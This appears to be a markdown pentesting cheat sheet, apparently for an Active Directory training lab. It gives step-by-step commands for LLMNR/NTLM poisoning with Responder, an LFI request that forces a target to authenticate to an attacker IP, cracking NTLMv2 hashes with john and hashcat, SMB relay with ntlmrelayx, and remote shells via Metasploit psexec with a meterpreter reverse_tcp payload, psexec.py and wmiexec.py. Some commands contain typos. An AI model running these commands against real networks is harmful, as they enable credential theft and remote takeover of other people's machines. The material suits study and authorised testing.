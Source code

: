 # LLMNR
Use responder to connect back to a smb server youre runnign and grab the hashed credentials.
If its not installed, install [impacket](https://github.com/SecureAuthCorp/impacket)
```
Python Responder.py -I tun0 -rdw
```
Once you get a hash follow the "NTLM CRACK" section below.

# NTLM
Use responder to see if you can connect back to a smb server youre running and grab the hash credentials.
If its not installed install [impacket](https://github.com/SecureAuthCorp/impacket)
## This is if you got a webshell or lfi etc

```
sudo responder -I tun0
```
then on the browser
```
http://<IP-or-HOST>/index.php?page=//<attaker-ip>/somefile
```
## NTLM CRACK

copy the `NTLMv2-SSP Hash` 
```
echo "Administrator ........0" > hash.txt
```
use john to crack the hash
```
sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
or with hashcat
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

# SMB Relay
Instead of cracking them just relay the hashes back if SMB signing is disabled
You will need to go into `responder` config, usually at `/usr/share/responder/Responder.conf`
And turn off `SMB` and `HTTP` to listen but not respond.

First check to see if smb singing is disabled
```
nmap --scirpt=smb2-security-mode.nse -p445 192.168.22.0/24
```
All the targets you find put their IP's in a target.txt file
Start responder
```
sudo responder -I eth0 -rdwv
```
and then setup the relay
```
ntlmrelayx -tf targets.txt -smb2support
```
get the hashes and crack or get a shell

to get a shell instead of hashes run
```
ntlmrelayx.py -tf targets.txt -smb2support -i
```
other options
`-e` for a executable- think msfvenom 
`-c` for a command like "whoami"

# Getting a shell using metasploit
Start metsploit
```
sudo msfconsole
```
search for psexec or use psexec
```
search psexec
#or
use 10
```
options:
```
set rhost 192.168.22.137
set smbdomain marvel.local
set smbpass Password1
set smbuser fcastle
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
```
if powershell doesnt work use native target
```
show targets
set target 2
```

# Getting a shell with psexec
Use psexec natively
```
psexec.py <domain>/<user>:<password>@<host>
```
Example:
```
psexec.py marvel.local/fcastle:Password1:192.168.22.138
```
# Gettig a shell with wmiexec
```
wmiexec.py <domain>/<user>:<password>@<host>
```
```
wmiexec.py marvel.local/fcastle:Password1:192.168.22.138
```

